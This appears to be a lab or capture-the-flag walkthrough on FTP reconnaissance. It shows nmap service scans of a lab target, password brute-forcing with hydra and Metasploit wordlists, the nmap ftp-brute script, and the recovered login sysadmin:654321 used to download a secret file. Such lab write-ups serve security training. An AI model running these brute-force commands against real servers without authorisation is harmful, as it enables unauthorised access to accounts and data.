 # FTP (File Transfer Protocol)

# FTP Server Reconnaissance Basics: A Step-by-Step Guide

This guide provides various commands to FTP reconnaisance basics.

### 1. Ping Command

Checks if the target system is reachable:
`ping [target IP]`

### 2. Nmap Command

Performs a network scan to identify open ports and services:
`nmap [target IP]`

### 3. Detailed Nmap Scan

Scans the FTP port (port 21) and identifies the software and operating system:
`nmap [target IP] -p 21 -sV -O`
_Port 21 = default FTP port. Port runs ProFTP 1.3.5a, OS = Linux 2.6.32_

### 4. FTP Client
### To get the admin flag, we go through following commands:
Connects to the FTP server of the target system:
`ftp [target IP]`

### 5. Hydra Command

Performs a brute-force attack to crack username and password:
`hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt [target IP] ftp`
_Tries usernames and common passwords._

### 6. FTP Login and File Download

Logs in with the found credentials and downloads a file:
`ftp [target IP], sysadmin, 654321`
After login:
`ls`
`get secret.txt`

### 7. List Directory Contents

Displays the contents of the current directory:
`ls`

### 8. Display File Contents

Displays the contents of the downloaded file:
`cat secret.txt`

### 9. Nmap Brute-Force Script

Creates a file with the username and performs a brute-force attack with nmap:
`echo "sysadmin" > users`
`cat users`
`nmap [target IP] --script ftp-brute --script-args userdb=/root/users -p 21`


Questions

    1. What is the version of FTP server?
    2. Use the username dictionary /usr/share/metasploit-framework/data/wordlists/common_users.txt and password dictionary /usr/share/metasploit-framework/data/wordlists/        unix_passwords.txt       to check if any of these credentials work on the system. List all found credentials.
    3. Find the password of user “sysadmin” using nmap script.
    4. Find seven flags hidden on the server.


1. We run the following command to get info about the OS and services:
` nmap 192.132.3.3 -p 21 -sV`
**ProFTPD 1.3.5a**
2. We want to brute-force usernames and passwords using the username dictionary /usr/share/metasploit-framework/data/wordlists/common_users.txt    and the password dictionary /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt. After that we wanna check if they work on our FTP service:
`hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.132.3.3 ftp`
**We can login with all the credentials using following command:**
`ftp [target IP]`
3. To try bruteforcing with nmap, we use following command:
`nmap 192.132.3.3 --script ftp-brute --script-args userdb=/root/users -p 21`
**sysadmin:654321 - Valid credentials**
![grafik](https://github.com/user-attachments/assets/80eb1d5b-9dfb-4215-9e2d-64d79919259e)






